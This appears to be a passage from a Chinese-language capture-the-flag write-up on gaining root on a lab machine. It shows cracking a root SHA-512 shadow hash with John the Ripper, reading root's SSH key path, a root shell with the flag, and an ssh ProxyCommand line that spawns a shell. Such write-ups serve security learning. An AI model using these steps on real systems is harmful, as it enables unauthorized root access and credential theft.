 拿到`root`用户密码哈希值（格式为`$6$...`），这是`Linux`系统使用`SHA-512`算法加密的密码。爆破一下

```shell
└─# echo 'root:$6$qgppm7vz3uxoh2kt$vkj8.on1has6b9.tm8ms5fwhmvmxrvz29bcznqmjfqojkphvaznoozhyt0.o2x3s3nbqrswpci.lhvk94armu.:20263:0:99999:7:::'>hash                                        
└─# john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt hash 
```

直接爆破不行，因为`ssh -F读文件会自动转为小写`

本靶机虽然有私钥但漏配置了`authorized_keys`所以读`root`的私钥登录这条路也不行，如果靶机赔了`authorized_keys`就可以使用`ssh -i /root/.ssh/id_rsa root@localhost ` 方式登陆不了

![image-20250629070259217](https://gitee.com/shui666/images/raw/master/images/image-20250629070259217.png)

如果像HYH一样欧皇运气爆棚，直接猜到`root`密码是`57`（数字是不是很熟悉，前面隐藏信息的就是第57个pdf），或许就成功和作者对上脑电波了

##### 拿到`root.txt`

```shell
~ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
~ # cd
~ # cat root.txt
flag{root-b89ed76b27e91ad5d773ddadae256072}
```

测试`ProxyCommand `参数执行命令失败

```shell
#ProxyCommand参数执行命令
/usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```
